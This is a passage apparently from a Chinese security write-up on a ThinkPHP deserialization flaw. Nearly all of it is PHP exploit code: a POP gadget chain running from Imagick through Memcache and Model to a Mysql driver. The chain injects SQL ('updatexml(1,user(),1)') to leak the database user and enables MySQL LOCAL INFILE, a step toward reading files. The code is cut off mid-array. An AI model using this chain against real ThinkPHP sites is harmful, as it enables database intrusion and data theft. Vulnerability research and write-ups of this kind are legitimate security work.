 所以POP链就出来了：

```
&lt;?php

namespace Think\Image\Driver`{`
    use Think\Session\Driver\Memcache;

    class Imagick
    `{`
        private $img;

        public function __construct()
        `{`
            $this-&gt;img = new Memcache();
        `}`
    `}`
`}`

namespace Think\Session\Driver`{`
    use  Think\Model;

    class Memcache
    `{`
        protected $handle;
        public function __construct()
        `{`
            $this-&gt;handle = new Model();
        `}`
    `}`
`}`

namespace Think`{`
    use Think\Db\Driver\Mysql;

    class Model
    `{`
        protected $options;
        protected $data;
        protected $pk;
        protected $db;

        public function __construct()
        `{`
            $this-&gt;db = new Mysql();
            $this-&gt;options['where'] = '';
            $this-&gt;data['id'] = array(
                "table" =&gt; "mysql.user where 1=updatexml(1,user(),1)#",
                "where" =&gt; "1=1"
            );
            $this-&gt;pk = 'id';
        `}`
    `}`
`}`

namespace Think\Db\Driver`{`
    use PDO;

    class Mysql
    `{`
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE =&gt; true
        );
        protected $config = array(
```